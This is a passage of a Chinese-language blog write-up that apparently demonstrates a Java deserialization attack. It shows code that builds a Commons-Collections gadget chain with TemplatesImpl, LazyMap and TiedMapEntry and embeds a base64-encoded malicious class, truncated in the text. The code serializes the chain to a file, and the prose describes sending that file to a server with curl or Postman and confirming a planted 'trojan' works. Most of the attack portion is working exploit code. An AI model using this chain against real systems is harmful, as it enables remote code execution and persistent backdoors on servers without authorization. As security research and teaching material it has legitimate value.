 ```java
        Field bytecodesField = cc11.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        //这里省略掉了，代码量有点多
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAfwoAJQ.........AAAAAIAOQ==");
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc11.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("m0re"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, templates);
        HashMap<Object, Object> pocMap = new HashMap<>();
        pocMap.put(tiedMapEntry, "value");
        lazyMap.remove(templates);
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, invokerTransformer);

        serialize(pocMap);
//        unserialize("agent.ser");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("agent.ser"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```
然后可以通过curl或者postman进行传入
![image-20230707133308463](img/image-20230707133308463.png)看下后台
![image-20230707133315598](img/image-20230707133315598.png)没有成功，看样子应该是tools.jar没有被加载进来。查一下.....
果然是我创建的项目没加载tools.jar。所以这里先手动添加下。然后再次运行项目，用agent.ser打一下
可以看到后台是成功了。
![image-20230707133319374](img/image-20230707133319374.png)看下木马效果
![image-20230707133322865](img/image-20230707133322865.png)

## 参考文章
